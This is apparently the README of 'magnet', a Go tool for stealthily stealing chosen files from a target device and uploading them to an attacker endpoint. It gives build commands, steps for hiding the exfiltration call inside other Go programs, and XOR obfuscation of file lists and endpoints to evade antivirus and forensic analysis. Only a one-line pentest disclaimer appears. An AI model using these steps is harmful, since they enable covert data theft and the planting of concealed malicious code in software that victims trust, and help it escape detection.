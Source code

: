 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  Grab interesting files from target</strong><br>

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>  
  </pre>
</div>

The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program is launched.

<sup><i>For educational purpose only or during pentest assessment with prior permission</i></sup>

## Usage

All the work is made **At compilation time**, you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

```shell
export KEY=[YOUR_KEY]
export FILES=[FILENAME]
export ENDPOINT[ATTACKER_ENDPOINT]
export TARGET_OS=[TARGET_OS]
```

Then, the program execution on target will stealthy provide you the files you ask for.

You have 2 possibilities:
* [Hide exfiltration in your program](#-inject-magnet-in-your-go-program)
* [Use the standalone `magnet` executable](#-standalone)

### 🥷 Inject `magnet` in your Go program

1. Add `magnet` import and declare variables outside your `main()` function:
```golang
import "github.com/ariary/magnet/pkg/magnet"

var FileList,Key,Endpoint string
```

2. Add magnet payload in the `main()`:
```golang
magnet.Magnet(FileList, Endpoint, Key, false)
```

3. Finally, modify the build command by adding `-ldflags "-X 'main.FileList=$FILES' -X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'"`

see [declare `magnet`environment variables](#declare-magnet-envar)

*`magnetgentool` is on the making, it will be used with `//go:generate` comment to stealthy inject magnet code.*

### ⚡ Standalone


To build `magnet` binary in one step:
```shell
# build lobfuscator
make build.lobfuscator
# put lobfuscator in your PATH and then:
./build.sh $TARGET_OS $FILES $ENDPOINT $KEY
```


### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

The same thing is made for the remote endpoints, to make the forensic analysis harder.

`lobfuscator` is the simple tool to perform the XOR encryption/decryption.

An exemple to build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
# decrypt: cat obfuscated.txt | lobfuscator -d $KEY
```

#### Declare `magnet` envar

Define `FILES` and `ENDPOINTS`envar:
```shell
export FILES=$(cat [FILE] | lobfuscator $KEY)
export ENDPOINT=$(echo "[ENDPOINT]" | lobfuscator $KEY)
```

## Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario (for standalone use)
* To enhance the binary obfuscation use [`garble`](https://github.com/burrowers/garble) to compile `magnet` instead of `go`(adapt `build.sh` consequently)

## To do

* Handle directories
* Use other protocols to send files (ICMP, DNS, SMTP, etc...)
